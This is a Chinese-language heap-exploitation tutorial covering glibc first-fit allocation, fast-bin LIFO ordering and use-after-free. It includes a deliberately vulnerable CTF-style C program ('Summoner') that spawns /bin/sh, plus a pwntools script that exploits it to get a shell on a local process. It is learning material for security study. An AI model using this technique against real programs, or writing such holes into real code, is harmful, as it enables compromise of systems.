# UAF

## first-fit behavior

释放除了fast chunk之外的chunk时，都会在unsorted bin中结束，在列表的HEAD处插入chunk；请求新的除了fast chunk之外的chunk时，首先在unsorted bin中查找，此时small bin为空，查找来自列表末尾TAIL，如果unsorted bin中存在单个chunk，则不会进行精确检查，如果chunk的大小大于或等于请求的块，则将其拆分为两个并返回
对于

```c++
char *a = malloc(300);    // 0x***010
char *b = malloc(250);    // 0x***150
free(a);
a = malloc(250);
```

unsorted bin 的情况：

1. free(a): `head -> a -> tail
2. a=malloc(250): `head -> a2 -> tail['a1'被返回]`




'a' 被分成两块，'a1'和'a2'，因为请求大小小于a的大小

fast chunk中，fast chunk 最终进入 fast bins 而不是到 unsorted bin。此外，fast bin 遵循 LIFO原则
对于

```c++
char *a = malloc(20);
char *b = malloc(20);
char *c = malloc(20);
char *d = malloc(20);
free(a);
free(b);
free(c);
free(d);
a = malloc(20);
b = malloc(20);
c = malloc(20);
d = malloc(20);
```









fast bin中的情况：

1. free(a): `head -> a -> tail`
2. free(b): `head -> b -> a -> tail`
3. free(c): `head -> c -> b -> a -> tail`
4. free(d): `head -> d-> c ->b -> a -> tail`
5. d=malloc(20): `head -> c -> b -> a -> tail`
6. c=malloc(20): `head -> b -> a -> tail`
7. b=malloc(20): `head -> a -> tail`
8. a=malloc(20): `head -> tail`

> 使用较小的大小是为了确保在释放时，chunk进入fast bins 而不是 unsorted bins

## Use after Free 漏洞利用（UAF漏洞）

malloc 可能会返回先前使用和释放的chunk，这使得使用释放的内存chunks容易受到攻击。一旦释放了一个chunk，就应该假设攻击者可以控制chunk内的数据，永远不使用释放的chunk，即总是分配一个新的chunk
容易受道攻击的代码：

```c++
char *ch = malloc(20);
// Some operations
//  ..
//  ..
free(ch);
// Some operations
//  ..
//  ..
// Attacker can control 'ch'
// This is vulnerable code
// Freed variables should not be used again
if (*ch=='a') {
  // do this
}
```

例，`Summoner`

```c++
    #include <stdio.h>
    #include <stdlib.h>
    #include <stdint.h>
    #include <string.h>

    struct creature {
        char *name;
        int level;
    };

    void intro()
    {
        puts("After you climb over the snow mountain, you encounter an evil summoner!\n");
        puts("He summoned \"The Dark Lord\" Level 5! You have to get over his dead body to fight the Demon Dragon, but you can only summon Level 4 creatures!\n");
        puts("What's your plan for now???\n");
    }

    void menu()
    {
        puts("Available plans:");
        puts("\tshow - show your creature and its level");
        puts("\tsummon [name] - summon a creature called [name]");
        puts("\tlevel-up [level] - level up your creature (below Level 5)");
        puts("\tstrike - STRIKE the evil summoner's creature!!!");
        puts("\trelease - release your creature");
        puts("\tquit - give up and die");
    }

    int main(int argc, char **argv)
    {
        char buf[0x200];
        char *arg;
        uint32_t level;
        struct creature *c;

        setbuf(stdout, NULL);
        intro();
        menu();
        c = NULL;
        while(1) {
            printf("\nEnter your command:\n> ");

            if(fgets(buf, 0x200, stdin) == NULL)
                break;

            if (!strncmp(buf, "show", 4)) {
                if(c == NULL)
                    puts("You have no creature now.");
                else
                    printf("Current creature: %s [Level %u]\n", c->name, c->level);
            } else if (!strncmp(buf, "summon", 6)) {
                if (c != NULL) {
                    puts("Already have one creature. Release it first.");
                    continue;
                }
                arg = strtok(&buf[7], "\n");
                if (arg == NULL) {
                    puts("Invalid command");
                    continue;
                }
                c = (struct creature *)malloc(sizeof(struct creature));
                if (c == NULL) {
                    puts("malloc() returned NULL. Out of Memory\n");
                    exit(-1);
                }
                c->name = strdup(arg);
                printf("Current creature:\"%s\"\n", arg);
            } else if(!strncmp(buf, "level-up", 8)) {
                if(c == NULL) {
                    puts("Summon first.");
                    continue;
                }
                arg = strtok(&buf[9], "\n");
                if (arg == NULL) {
                    puts("Invalid command");
                    continue;
                }
                level = strtoul(arg, NULL, 10);
                if (level >= 5) {
                    puts("Can only level-up to Level 4.");
                    continue;
                }
                c->level = level;
                printf("Level-up to \"%u\"\n", level);
            } else if(!strncmp(buf, "strike", 6)) {
                if (c == NULL) {
                    puts("Summon first.");
                    continue;
                }
                if (c->level != 5) {
                    puts("No, you cannot beat him!");
                    continue;
                }
                // system("/bin/cat /pwn/flag");
                // 此处修改过原作者的逻辑，用作本地调试，原作者代码：https://github.com/SignorMercurio/Heap-Tutorials/blob/master/first%20fit%20%26%20uaf/Summoner/summoner.c
                system("/bin/sh");
            } else if(!strncmp(buf, "release", 7)) {
                if (c == NULL){
                    puts("No creature summoned.");
                    continue;
                }
                free(c->name);
                c = NULL;
                puts("Released.");
            } else if(!strncmp(buf, "quit", 4)) {
                return 0;
            } else {
                puts("Invalid option");
                menu();
            }
        }
    }
```

编译之后通过ida查看



如果输入“summon”通过malloc申请一块变量，然后返回到name，而strdup将输入的name拷贝到申请的chunk。
输入“level-up”时，会将输入的值写入到结构体的level




输入“release”时则会释放name


输入“strike”时会调用`system`，但是前提时level为5



而正常输入的情况下是不能够使level为5的，但是可以在申请name时通过输入溢出到level处的位置，写入5，然后free掉这块内存，再malloc一块内存，如此一来就可以拿到shell



payload：

```python
from pwn import *
context.log_level='DEBUG'

p = process('./summoner')
p.sendline('summon aaaaaaaa'+'\x05')
sleep(1)
p.sendline('release')
sleep(1)
p.sendline('summon a')
#gdb.attach(p)
#pause()
sleep(1)
p.sendline('strike')
sleep(1)
p.interactive()
```



